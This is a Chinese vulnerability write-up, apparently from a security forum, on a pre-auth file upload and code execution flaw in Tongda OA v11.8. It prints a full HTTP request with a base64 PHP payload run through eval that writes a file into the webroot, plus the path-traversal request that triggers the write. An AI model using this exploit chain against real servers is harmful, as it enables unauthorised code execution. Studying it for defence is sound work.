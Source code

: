

# 通达 v11.8 前台文件上传&命令执行漏洞利用分析 - 先知社区

通达 v11.8 前台文件上传&命令执行漏洞利用分析

- - -

## api.ali.php 任意文件上传

### 影响版本

v11.8

### 漏洞复现过程：

漏洞原理是通过文件上传上传一个 json 文件，再通过调用程序去解析 json 文件执行里面 php 语句

首先需要上传一个 json 文件

完整数据包：

```bash
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream


{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIGVjaG8gdnVsbl90ZXN0Oz8+Jyk7","dataAnalysis":"{\"a\":\"錦',eval(base64_decode($BackData[a])));/*\"}"}

--502f67681799b07e4de6b503655f5cae--
```

接着发送 get 请求写入文件，成功在 webroot 目录下写入 fb6790f4.php，2109 为年月份

```bash
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

### 分析过程

文件上传功能实现的地方在 mobile/api/api.ali.php 文件下

其中包含了 conn.php、api.api.class.php、utility\_file.php 三个文件，这三个文件都是负责加载通达的配置信息以及通用函数，不涉及权限验证
